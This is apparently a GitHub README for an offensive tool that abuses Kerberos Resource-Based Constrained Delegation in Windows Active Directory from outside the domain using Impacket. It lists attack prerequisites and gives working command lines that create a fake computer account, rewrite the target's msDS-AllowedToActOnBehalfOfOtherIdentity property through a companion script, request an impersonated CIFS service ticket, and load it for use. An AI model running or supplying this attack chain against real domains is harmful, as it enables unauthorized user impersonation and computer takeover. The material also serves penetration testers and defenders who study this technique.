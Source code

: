 # Abusing Kerberos Resource-Based Constrained Delegation

## TL;DR

This repo is about a practical attack against Kerberos Resource-Based
Constrained Delegation in a Windows Active Directory Domain.

> The difference from other common implementations is that we are
> launching the attack **from outside of the Windows Domain**, not from
> a domain joined (usually Windows) computer.

The attack is implemented **using only Python3
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket)**
(and its dependencies). Tested on [Arch](https://www.archlinux.org/)
with up-to-date Impacket (0.9.21 as of writing).

![Attack Log](./rbcd-attack.png)

## The Attack

In summary, without any deep details, the attack targets 
a domain computer, exactly service principals related to the
target domain computer.

What we need here as prerequisites:

* a domain account with write access to the target computer (exactly write access to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer domain object)
* permission to create new computer accounts (this is usually default, see `MachineAccountQuota`)
* LDAP (389/tcp) and SAMR (445/tcp) (or LDAPS (636/tcp)) access to the DC.
* Kerberos (88/tcp) access to the DC

The attack path in very high level:

1. Create a fake computer
2. Abuse `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target
3. Request impersonated Service Tickets (S4U) for the target computer

Benefit:

* Impersonated Service Tickets may allow high-level access to services on
the target like CIFS, HTTP, etc, if the impersonated account has privileges.
Sometimes takeover of the computer.

## Common toolsets

The common toolsets for this attack operate on a domain-joined
Windows Computer using:

* [Powermad](https://github.com/Kevin-Robertson/Powermad) for adding new computer accounts
* [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) dev branch for `abusing msDS-AllowedToActOnBehalfOfOtherIdentity`
* [Rubeus](https://github.com/GhostPack/Rubeus) for S4U ticket operations

## Impacket implementation

This implementation uses pure [Impacket](https://github.com/SecureAuthCorp/impacket) from outside the Domain.

### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer:

```
addcomputer.py -computer-name 'FAKE_COMPUTER$' -computer-pass SuperS3cr3tP@ss -dc-ip 10.13.37.1 domain.local/user:userpass
```

### Modifying delegation rights

Implemented the script [rbcd.py](./rbcd.py) found here in the repo which
adds the related security descriptor for the newly created FAKE_COMPUTER to the
`msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
rbcd.py
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example.

### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an
S4U2Self query and get an impersonated Service Ticket for the
target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/TARGET_COMPUTER_NAME.domain -impersonate TARGET_DOMAIN_USER -dc-ip 10.13.37.1 DOMAIN/FAKE_COMPUTER:SuperS3cr3tP@ss
```

The above command fetches a CIFS Service Ticket on behalf of TARGET_DOMAIN_USER
and stores it in the file TARGET_DOMAIN_USER.ccache.

After adding the file path to the KRB5CCNAME variable the ticket is usable for
Kerberos clients.

```
export KRB5CCNAME=`pwd`/TARGET_DOMAIN_USER.ccache
klist
```

## References

For details about abusing Resource-Based Constrained Delegation:

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/

And one of the most comprehensive presentations about Kerberos Attacks:

* [Constructing Kerberos Attacks with Delegation Primitives slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf) at Defcon by [Elad Shamir](https://twitter.com/elad_shamir) and [Matt Bush](https://twitter.com/3xocyte)
